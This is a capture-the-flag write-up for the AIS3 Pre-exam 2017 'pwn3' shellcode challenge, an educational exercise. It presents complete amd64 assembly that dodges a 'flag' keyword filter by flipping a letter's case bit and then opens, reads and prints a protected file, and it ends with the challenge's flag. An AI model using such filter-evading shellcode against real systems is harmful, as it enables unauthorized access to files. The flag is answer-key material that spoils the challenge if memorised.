

# AIS3 Pre-exam 2017: pwn3



## Solution
```
=======================================
          shellcode challenge
=======================================
Rule :
 1. Only allow open/read/write/exit
 2. Filter "flag" in your shellcode
 3. arg3 of read < 42 when running
    shellcode
=======================================
Give me your shellcode (max = 87 bytes)
```
A shellcode challenge with the above rules and in amd64.
The flag is more than 42 chars, but we can only read 42 chars at once.
We can perform read (xor rax, rax; syscall) again to read the next 42 chars, until we read the whole flag.
Also "flag" is filtered, we can send the word "Flag" and then xor the first letter "F" with 0x20 to get the letter "f", so we can bypass this.

Here is the shellcode:
```
    jmp _file

_orw:
	; xor "F" with 0x20
    pop rdi
    xor BYTE PTR [rdi + 11], 32
	
_open:
    xor rax, rax
    add al, 2
    xor rsi, rsi
    syscall

_read:
	; read the first 42 bytes
    mov rsi, rsp
    mov rdi, rax
    xor rdx, rdx
    add rdx, 42
    xor rax, rax
    syscall

	; only perform this to read the next 42 bytes
    xor rax, rax
    syscall

	; only perform this to read the last 42 bytes
    xor rax, rax
    syscall

_write:
    xor rdi, rdi
    inc rdi
    xor rax, rax
    add al, 1
    syscall

_exit:
    xor rax, rax
    add al, 60
    syscall


_file:
    call _orw
    .ascii "/home/pwn3/Flag"
    .byte 0
```

Flag:
>ais3{r34d_0p3n_r34d_Writ3_c4ptur3_th3_fl4g_sh3llc0ding_1s_s0_fUn_y0ur_4r3_4_g0od_h4ck3r_h4h4}
